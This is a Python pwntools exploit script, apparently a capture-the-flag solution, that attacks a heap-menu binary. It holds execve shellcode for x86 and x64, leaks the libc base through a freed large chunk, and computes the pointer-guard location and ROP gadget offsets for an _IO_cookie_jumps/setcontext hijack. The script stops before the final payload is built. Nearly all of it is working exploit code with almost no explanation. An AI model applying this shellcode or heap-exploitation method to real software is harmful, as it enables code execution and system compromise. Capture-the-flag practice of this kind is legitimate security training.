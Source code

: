 ```python
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def ROL(content, key):
    tmp = bin(content)[2:].rjust(64, '0')
    return int(tmp[key:] + tmp[:key], 2)

def add(idx,size,con='a'):
  sla(">>",1)
  sla("Index:",idx)
  sla("Size:",size)
  p.sendafter('Content',con)

def show(idx):
  sla(">>",3)
  sla("Index:",idx)

def edit(idx,con):
  sla(">>",2)
  sla("Index:",idx)
  p.sendafter('Content',con)

def dele(idx):
  sla(">>",4)
  sla("Index:",idx)

#---------------------------------leak---------------------
add(-4,0x418)
add(1,0x418)
add(2,0x420)
add(3,0x418)

dele(2)
add(4, 0x430)
show(2)

libc_base = uu64()-0x1e0ff0 # main_arena + 1104
lg("libc_base")
guard = libc_base-0x002890# tls
lg("guard")

pop_rdi_addr = libc_base + 0x0000000000028a55
pop_rsi_addr = libc_base + 0x000000000002a4cf
pop_rax_addr = libc_base + 0x0000000000044c70
syscall_addr = libc_base + 0x000000000006105a
gadget_addr  = libc_base + 0x000000000014a0a0  # search mov rdx
# mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
setcontext_addr = libc_base + libc.sym['setcontext']
IO_cookie_jumps = libc_base + 0x1e1a20# p/x &_IO_cookie_jumps
stderr = libc_base+libc.sym['stderr']
```